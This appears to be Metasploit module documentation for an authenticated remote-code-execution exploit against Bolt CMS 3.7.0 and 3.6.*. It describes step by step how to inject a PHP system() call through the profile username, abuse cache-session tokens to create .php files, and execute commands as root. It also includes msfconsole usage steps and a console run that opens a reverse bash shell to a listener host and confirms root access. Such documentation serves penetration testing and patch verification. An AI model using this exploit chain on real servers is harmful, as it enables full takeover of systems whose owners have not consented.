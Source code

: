 ## Vulnerable Application
This module exploits multiple vulnerabilities in Bolt CMS version 3.7.0 and 3.6.* in order to execute arbitrary commands as root.

This module first authenticates to Bolt CMS and visits the profile page to obtain a special token. This token is then used to change the username in /bolt/profile to a PHP `system($_GET[""])` variable, using a generated random name. If this succeeds, the target may be vulnerable, and the module proceeds by issuing an HTTP GET request for /bolt/overview/showcases in order to obtain a CSRF token to be used later.

Next, the module obtains a list of filename tokens from `/async/browse/cache/.sessions.` These tokens are used to create files with the blacklisted `.php` extention via HTTP POST requests to `/async/folder/rename`. With the CSRF token obtained before, it is possible to create .php files by "renaming" these cache tokens. While most (if not all) available tokens can be used to created .php files in the /root directory on the server, the resulting files cannot always be used to execute commands. The module excludes tokens with a filesize of under 2000 bytes, as they can't ever be used for this purpose. For the remaining tokens, it seems the only way to identify a valid one, is to use each token to create a .php file and then check the contents of that file. The module does exactly this, deleting any .php files that can't be used, until it finds a file for which the "displayname" value is an empty string (""). This value indicates that the profile username matching this token is the `$_GET` variable generated earlier, and that the file can be used to execute arbitrary commands. If a valid .php file is created, the module executes the payload as root via an HTTP get request in this format: `/files/<rogue_PHP_file>?<$_GET_variable>=<payload>`

The module requires valid credentials for a user with administrative privileges. This module has been successfully tested on Bolt CMS 3.7.0.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/bolt_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Bolt CMS account]`
6. Do: `set PASSWORD [password for the Bolt CMS account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### FILE_TRAVERSAL_PATH
This is the traversal path to get from the `/files/` directory on the web server to the `/root` directory on the server. It is used by the module to write rogue .php files to /root. The default value is `../../../public/files`.

### PASSWORD
The password for the Bolt CMS account to authenticate with. This option is 
required.

### TARGETURI
The base path to Bolt CMS. The default value is `/`.

### USERNAME
The username for the Bolt CMS account to authenticate with. This option is required.


## Scenario
### Bolt CMS 3.7.0 running on CentOS 7
```
msf5 exploit(linux/http/bolt_authenticated_rce) > show options
                                                                                                                                                                                                                                           
Module options (exploit/linux/http/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Path from the "files" directory to the root folder
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.4            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.10   yes       The listen address (an interface may be specified)
   LPORT  4444           yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf5 exploit(linux/http/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[+] Successfully changed the /bolt/profile username to PHP $_GET variable "nbxnh".
[*] Found 6 potential token(s) for creating .php files.
[+] Used token a0293d73f435515024c2c5d37a to create phfsbswowfp.php.
[*] Attempting to execute the payload via "/files/phfsbswowfp.php?nbxnh=`payload`"
[+] Payload executed!
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.4:52008) at 2020-05-26 09:15:19 -0400

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
